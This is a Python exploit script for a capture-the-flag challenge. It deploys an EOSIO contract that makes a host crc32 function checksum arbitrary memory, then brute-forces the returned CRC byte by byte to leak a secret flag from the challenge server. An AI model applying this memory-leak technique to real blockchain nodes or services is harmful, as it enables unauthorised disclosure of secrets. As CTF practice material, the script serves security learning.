 ```python
import binascii
import subprocess
from subprocess import PIPE

contract = """
#include <eosio/eosio.hpp>
#include <eosio/crypto.hpp>

using namespace eosio;

extern "C" [[eosio::wasm_import]] uint32_t crc32(const char*, uint32_t, uint32_t);
extern "C" [[eosio::wasm_import]] uint32_t get_secret_flag(const char*, uint32_t);

class [[eosio::contract]] pwn : public contract {
    public:
        using contract::contract;

        [[eosio::action]]
        void pwn(name user) {
            const char *ptr = (char *)0xffff;
            uint32_t out = crc32(ptr, 0, POSITION);
            print(out);
        }
};
"""


def publish_contract(contract):
    with open("pwn.cpp", 'w') as f:
        f.write(contract)
    subprocess.run(["eosio-cpp", "pwn.cpp", "-o", "pwn.wasm"])
    subprocess.run(["cleos", "-u", "http://modern-cryptocomputer.donjon-ctf.io:61775/", "set", "contract", "maze", "/opt/eosio/contracts/pwn/", "-p", "maze@active"])
    subp = subprocess.run(["cleos", "-u", "http://modern-cryptocomputer.donjon-ctf.io:61775/", "push", "action", "maze", "hi", '["maze"]', "-p", "maze@active"], stdout=PIPE, stderr=PIPE)
    print(subp.stdout)
    print(subp.stderr)

    output = subp.stdout.strip().split(b"\n")
    crc_res = output[-1].replace(b">", b"")
    crc_res = int(crc_res)
    print(crc_res)
    return crc_res


curr = b""
pos = 0

while True:
    pos += 1
    contract2 = contract.replace("POSITION", str(pos))
    crc_target = publish_contract(contract2)

    for i in range(256):
        temp = curr + bytes([i])
        out = binascii.crc32(temp)
        if out == crc_target:
            curr = curr + bytes([i])
            print(curr)
            break

```
